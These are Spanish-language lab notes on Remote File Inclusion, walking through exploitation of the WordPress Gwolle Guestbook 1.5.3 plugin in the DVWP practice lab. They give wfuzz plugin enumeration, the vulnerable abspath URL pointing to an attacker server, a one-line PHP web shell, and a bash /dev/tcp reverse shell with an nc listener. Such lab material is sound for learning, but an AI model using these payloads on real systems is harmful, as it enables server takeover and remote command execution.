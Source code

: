# Remote File Inclusión (RFI)

Tags: #RFI #OWASP #Explotacion

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

- [DVWP](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

- [Gwolle Guestbook](https://es.wordpress.org/plugins/gwolle-gb/)

```bash Add commentMore actions
# Este tipo de ataques son convenientes cuando:
1. Podemos apuntar a un archivo php y este archivo interpreta ese lenguaje 
```

## Enumeración de plugin en WP

```bash 
# Forma de descubrir los plugins existentes en un Wordpress

❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/web-content/CMS/wp-plugins.fuzz.txt http://<IP>/FUZZ

	# c = Formato colorizado 
	# hc = Hide Code 404
	# t = Usar 200 peticiones al mismo tiempo
	# w = Ruta absoluta del diccionario a usar
```

## Wordpress plugin Gwolle

```bash 
# Esta vulnerabilidad de RFI se da en un Wordpress en la parte de su plugin 'Gwolle' 1.5.3

❯ http://IP/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<hacker_website>/
```

```bash 
# Del lado del atacante debemos de tener un servidor http ejecutandose con el archivo a compartir

❯ python3 -m http.server 80 
```

```bash 
# Archivo malicioso a compartir 
❯ wp-load.php 

<?php 
	system($_GET['cmd']);

Notas:
	1. Terminar el script de la siguiente manera '?>'
```

```bash 
# Por lo que ahora en la URL al final debemos de agregar '&cmd=' ya que no podemos tener dos '?cmd=' en una misma URL

?abspath=http://<hacker_website>/&cmd=whoami

# Podemos agregar una revershell en la URL de la siguiente manera:
❯ bash -c "bash -i >& /dev/tcp/IP/443 0>&1"
	# El '&' debemos de urlencodearlo = %26
❯ bash -c "bash -i >%26 /dev/tcp/IP/443 0>%261"
```

```bash 
# Nos ponemos en escucha en nuestra maquina de atacante para recibir la revershell
❯ nc -nlvp 443 
```

